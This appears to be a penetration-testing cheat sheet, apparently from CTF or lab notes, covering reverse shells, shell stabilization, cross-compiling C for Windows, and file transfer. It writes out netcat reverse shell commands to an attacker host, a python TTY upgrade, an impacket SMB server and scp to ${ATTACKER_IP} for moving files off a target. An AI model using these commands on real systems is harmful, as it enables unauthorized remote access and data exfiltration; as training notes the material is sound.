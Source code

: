 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop

We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).


## File transfer


### From Windows Target to Attack box

If you find yourself on a windows shell and want to transfer files from the target to the attack box,
you can start an SMB server on the attackbox:

```
impacket-smbserver SHARE $(pwd) -smb2support -user ${SOME_USERNAME} -password ${SOME_PW}
```
(Note that this makes a public server. Only without setting user/password in CTF scenarios in private networks).

### SCP to copy

Assuming you have ssh started on your kali machine, we can do:

```
scp path/to/file ${USER}@${ATTACKER_IP}:/full/path/to/dest
```
or the other way:

```
scp ${USER}@${ATTACKER_IP}:/full/path/to/file path/to/dest
```

Works on modern windows boxes too.



